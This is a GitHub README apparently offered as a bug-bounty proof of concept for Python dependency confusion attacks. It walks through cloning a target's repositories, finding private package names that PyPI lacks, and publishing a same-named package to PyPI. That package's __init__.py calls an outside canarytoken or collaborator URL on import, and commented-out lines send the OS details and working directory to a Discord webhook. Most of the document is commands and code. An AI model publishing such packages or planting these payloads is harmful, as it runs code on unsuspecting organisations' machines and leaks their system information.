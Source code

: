 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/Fix-Grub-Boot-Menu/assets/85815644/26ed3a3f-a1e6-452c-b2ac-cac5c3d7478e"></a>
  <br>
<h1 align="center">Python Dependency Confusion Attacks POC</h1>
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
<br>


### How to Finds & How to Exploit

Finds requirement.txt then check the all dependency here is public or not

`https://pypi.org/project/pip/`

- Download all target repo in github
- Crate token:- https://github.com/settings/tokens

```bash
$ ghorg clone <target> -t <token>
```
- After Download all repo 

```bash 
$ find . -type f -name requirements.txt | xargs -n1 -I{} cat {} | cut -d ">" -f 1 | cut -d " " -f 1 |  sort -u | cut -d "=" -f1 | xargs -n1 -I{} echo "https://pypi.org/project/{}/" | httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly So This the vulnerable to dependencies confusion.

- Publish this python packages publicly (https://pypi.org)

```bash
$ mkdir <package-name>
```
```bash
$ cd <package-name>
```
```bash
$ mkdir <package-name> 
```
```bash
$ cd <package-name>
```
```bash
$ touch __init__.py 
```

```bash
# python package dependency confiuse vulnerability POC 
# name: techghoshal
# e-mail: techghoshal@gmail.com
# Impact this vulnerability: Remote code execution(RCE)


from discord import SyncWebhook
import requests
import os

## canarytokens_url OR burp collaborator URL
requests.get("canarytokens_url")

## Send target info to your discord server 
#webhook = SyncWebhook.from_url("<discord_webhook_url>")

#osname =  os.uname()
#cwd = os.getcwd()

#webhook.send(f"OS-Info: {osname}")
#webhook.send(f"Current-DIR: {cwd}")
```

- Save this file

```bash
$ cd .. 
```
```bash
$ touch setup.py
```

```bash 
from setuptools import setup, find_packages
import codecs
import os

here = os.path.abspath(os.path.dirname(__file__))

with codecs.open(os.path.join(here, "README.md"), encoding="utf-8") as fh:
    long_description = "\n" + fh.read()

VERSION = '0.0.1'
DESCRIPTION = 'Dependency confiuse Attack'
LONG_DESCRIPTION = 'Python package dependency confiuse vulnerability POC. Impact this vulnerability is Remote code exe>

# Setting up
setup(
    name="Python_dependency_confusion_attacks",
    version=VERSION,
    author="techghoshal",
    author_email="techghoshal@gmail.com",
    description=DESCRIPTION,
    long_description_content_type="text/markdown",
    long_description=long_description,
    packages=find_packages(),
    install_requires=['requests', 'discord'],
    keywords=[]
   )
```
- Save this file

```bash
$ touch README.md
```
```bash
<h1 align="center">This Python package vulnerable to dependency confusion vulnerability</h1>
```
- Save this file

- Build package
```bash
$ python3 setup.py sdist bdist_wheel
```

- Upload file publicly(https://pypi.org)

- Create Accont on pypi.org

```bash
$ pip3 install twine
```
```bash
$ twine upload dist/*
```

- Enter your username: <username>
- Enter your password: <password>

---
##### Upload IS DONE 😎 
##### 🎉 Now Bounty Time 💰💰


